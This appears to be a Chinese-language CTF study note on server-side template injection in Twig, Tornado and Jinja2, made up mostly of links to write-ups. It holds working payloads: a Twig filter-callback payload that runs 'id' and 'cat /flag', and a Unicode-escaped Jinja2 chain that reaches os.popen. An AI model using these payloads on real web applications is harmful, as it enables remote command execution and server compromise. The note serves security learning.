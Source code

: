 ###### twig

[buuctf-[BJDCTF2020\]Cookie is so stable(小宇特详解)_buuctf cookie is so stable-CSDN博客](https://blog.csdn.net/xhy18634297976/article/details/123011238?ops_request_misc=%7B%22request%5Fid%22%3A%22170253409716800222828223%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=170253409716800222828223&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-2-123011238-null-null.142^v96^pc_search_result_base1&utm_term=twig ctf&spm=1018.2226.3001.4187)

有专属payload:

```
1:{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}//查看id
2:{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}//查看flag

```

精华

https://www.cnblogs.com/hackxf/p/10480071.html

###### tornado模板注入

按理说这个很少考，

先贴一个大佬文章

[tornado模板注入-CSDN博客](https://blog.csdn.net/miuzzx/article/details/123329244)

一道题：[[NSSCTF 2nd\]MyHurricane | NSSCTF](https://www.nssctf.cn/problem/4283)

没看懂。

[SSTI模板注入_ssti注入-CSDN博客](https://blog.csdn.net/huangyongkang666/article/details/123628875?ops_request_misc=&request_id=&biz_id=102&utm_term=ssti注入&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-2-123628875.nonecase&spm=1018.2226.3001.4187)

[tornado模板注入-CSDN博客](https://blog.csdn.net/miuzzx/article/details/123329244)



###### jinjia2

[[安洵杯 2020\]Normal SSTI | NSSCTF](https://www.nssctf.cn/problem/910)

[[安洵杯 2020\]Normal SSTI详细解法（Unicode编码绕过）-CSDN博客](https://blog.csdn.net/2301_76690905/article/details/134273990?spm=1001.2014.3001.5501)

需要注意一下几点：1，要unicode编码，但不是全部都要；2，‘’|attr(“__class__”)等效于‘’.__class__；3，使用flask里的lipsum方法来执行命令：flask里的lipsum方法,可以用于得到__builtins__，而且lipsum.__globals__含有os模块；4，如果要使用xxx.os(‘xxx’)类似的方法，可以使用xxx|attr(“os”)(‘xxx’)

```
url={%print(lipsum|attr(%22\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f%22)|attr(%22\u0067\u0065\u0074%22)(%22os%22)|attr(%22\u0070\u006f\u0070\u0065\u006e%22)(%22\u006c\u0073\u0020\u002f%22)|attr(%22\u0072\u0065\u0061\u0064%22)())%}（等效于{{lipsum.__globals__.get("os").popen("ls").read()}}，

```

read()注意()在attr()外面）
